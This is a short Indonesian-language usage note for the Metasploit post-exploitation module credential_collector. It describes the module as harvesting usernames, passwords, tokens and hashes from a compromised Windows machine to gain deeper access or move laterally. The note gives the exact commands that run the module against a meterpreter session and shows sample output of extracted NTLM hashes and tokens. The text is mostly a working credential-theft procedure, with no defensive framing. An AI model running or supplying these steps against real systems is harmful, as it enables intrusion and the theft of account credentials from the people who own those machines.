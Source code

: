 # credential_collector

Module `credential_collector` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan berbagai jenis kredensial dari komputer target, termasuk `username`, `password`, `token`, dan `informasi login lainnya` yang tersimpan di sistem. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan akan menjalankan beberapa teknik pengumpulan secara otomatis, termasuk pencarian di `memori`, `registry`, dan `file sistem`, sehingga sangat berguna dalam tahap eksploitasi lanjutan untuk mendapatkan akses lebih dalam atau lateral movement ke sistem lain.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/credentials/credential_collector
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[+] Collecting hashes...
    Extracted: admin:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634
    Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: HomeGroupUser$:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98
    Extracted: loginbang:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
[+] Collecting tokens...
    admin-PC\admin
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    No tokens available
[*] Post module execution completed
```
